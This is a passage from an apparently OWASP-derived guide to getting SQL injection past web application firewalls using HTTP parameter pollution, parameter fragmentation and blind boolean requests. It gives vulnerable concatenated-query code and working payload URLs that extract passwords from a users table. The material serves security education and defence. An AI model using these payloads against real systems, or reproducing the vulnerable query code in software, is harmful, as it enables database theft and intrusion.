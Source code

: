 • The following request doesn’t allow anyone to conduct an attack

` /?id=1;select+1,2,3+from+users+where+id=1--`

• This request will be successfully performed using HPP

` /?id=1;select+1&id=2,3+from+users+where+id=1--`

*Successful conduction of an HPP attack bypassing WAF depends on the
environment of the application being attacked.
*[http://wiki.owasp.org/images/b/ba/AppsecEU09_CarettoniDiPaola_v0.8.pdf](EU09 Luca Carettoni, Stefano diPaola)*

![<File:Sqli-HPP.png>](Sqli-HPP.png "File:Sqli-HPP.png")

**Using HTTP Parameter Pollution (HPP)**
• Vulnerable code

` SQL=" select key from table where id= "+Request.QueryString("id")`

• This request is successfully performed using the HPP technique

` /?id=1/**/union/*&id=*/select/*&id=*/pwd/*&id=*/from/*&id=*/users`

• The SQL request becomes select key from table where

` id=1/**/union/*,*/select/*,*/pwd/*,*/from/*,*/users`

**ByPassing WAF: SQL Injection – HPF**
Using HTTP Parameter Fragmentation (HPF)

• Vulnerable code example

` Query("select * from table where a=".$_GET['a']." and b=".$_GET['b']);`
` Query("select * from table where a=".$_GET['a']." and b=".$_GET['b']." limit".$_GET['c']);`

• The following request doesn’t allow anyone to conduct an attack

` /?a=1+union+select+1,2/*`

• These requests may be successfully performed using HPF

` /?a=1+union/*&b=*/select+1,2`
` /?a=1+union/*&b=*/select+1,pass/*&c=*/from+users--`

• The SQL requests become

` select * from table where a=1 union/* and b=*/select 1,2`
` select * from table where a=1 union/* and b=*/select 1,pass/* limit */from users--`

**Bypassing WAF: Blind SQL Injection**
Using logical requests AND/OR
• The following requests allow one to conduct a successful attack for
many WAFs

` /?id=1+OR+0x50=0x50`
` /?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74`

<i>Negation and inequality signs (\!=, \<\>, \<, \>) can be used instead
of the equality one – It is amazing, but many WAFs miss it\!</i>
